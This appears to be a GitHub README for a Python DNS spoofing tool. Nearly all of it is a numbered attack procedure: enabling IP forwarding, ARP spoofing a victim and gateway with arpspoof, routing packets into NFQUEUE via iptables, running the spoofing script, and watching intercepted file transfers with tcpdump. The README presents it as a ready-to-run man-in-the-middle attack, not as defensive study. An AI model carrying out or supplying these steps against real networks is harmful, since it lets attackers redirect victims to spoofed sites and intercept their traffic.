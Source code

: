 DNS Spoofing is a program to spoof dns entries.  
Modifying every requests manually after intercepting each request will be time consuming, to solve this, we automate it.  
  
usage - sudo python3 dnsspoof.py eth0  
  
Steps:  
	0. Update target website link and spoofing link in script.  
	1. Forward all packets to our computer  
		1. echo 1 > /proc/sys/net/ipv4/ip_forward  
	2. ARP Spoof  
		1. arpspoof -i eth0 -t 10.0.2.15 10.0.2.1  
		2. arpspoof -i eth0 -t 10.0.2.1 10.0.2.15  
	3. Forward all dns - block all real packets  
         To test in local system or same system  
            1. sudo iptables -I OUTPUT -j NFQUEUE --queue-num 0  
            2. sudo iptables -I INPUT -j NFQUEUE --queue-num 0  
         To test in other system, target system  
            1. sudo iptables -I FORWARD -j NFQUEUE --queue-num 0     
	4. python3 dnsspoof.py eth0  
	5. To check if its working  
		1. tcpdump -i eth0 udp port 53  
		2. sudo iptables -L -v -n  
		3. sudo tcpdump -i any port 80 -A | grep ".jpg"  
		4. sudo tcpdump -i any -A port 80 | grep -Ei "\.jpg|\.exe|\.pdf"  
	6. After completing - flush the rules  
		1. iptables --flush  
		2. iptables -t nat -F  
  
Run the steps following them and we can spoof dns records.  
  
Requirements - install required libraries. For help, refer tools section
